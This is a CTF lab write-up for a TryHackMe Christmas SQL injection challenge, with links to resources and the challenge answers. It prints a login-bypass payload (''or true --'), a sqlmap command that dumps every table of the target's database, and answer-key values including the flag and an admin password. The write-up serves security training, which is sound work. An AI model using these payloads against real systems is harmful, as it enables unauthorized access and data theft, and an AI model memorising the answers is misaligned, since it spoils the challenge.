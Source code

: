 ```yaml
---
description: Web Exploitation ; sql injection ; sqli ; sqlmap
---
```


# Someone stole Santa's gift list!

## Video

{% embed url="https://www.youtube.com/watch?v=Kitx7cSNsuE" %}

## Resources

List of SQL Commands: [https://www.codecademy.com/articles/sql-commands](https://www.codecademy.com/articles/sql-commands)

Check out this cheat sheet: [swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

Payload list: [payloadbox/sql-injection-payload-list](https://github.com/payloadbox/sql-injection-payload-list)

In-depth SQL Injection tutorial: [SQLi Basics](https://tryhackme.com/room/sqlibasics)

[SQLMAP cheatsheet](https://www.security-sleuth.com/sleuth-blog/2017/1/3/sqlmap-cheat-sheet)

## Challenge

![](../.gitbook/assets/image%20%2859%29.png)

Without using directory brute forcing, what's Santa's secret login panel?

![](../.gitbook/assets/image%20%286%29.png)

{% hint style="success" %}
/santapanel
{% endhint %}

Visit Santa's secret login panel and bypass the login using SQLi

![](../.gitbook/assets/image%20%2835%29.png)

`Username` `'or true --`

`Password` `'--`

![](../.gitbook/assets/image%20%2854%29.png)

{% hint style="success" %}
No answer needed
{% endhint %}

How many entries are there in the gift database?

![](../.gitbook/assets/image%20%2815%29.png)

**`Save Item`**

`sqlmap -r santapanel.req --tamper=space2comment --dump-all -dbms sqlite`

![](../.gitbook/assets/image%20%2841%29.png)

![](../.gitbook/assets/image%20%2810%29.png)

{% hint style="success" %}
22
{% endhint %}

What did Paul ask for?

![](../.gitbook/assets/image%20%2820%29.png)

{% hint style="success" %}
Github Ownership
{% endhint %}

What is the flag?

![](../.gitbook/assets/image%20%2855%29.png)

{% hint style="success" %}
thmfox{All\_I\_Want\_for\_Christmas\_Is\_You}
{% endhint %}

What is admin's password?

![](../.gitbook/assets/image%20%282%29.png)

{% hint style="success" %}
EhCNSWzzFP6sc7gB
{% endhint %}

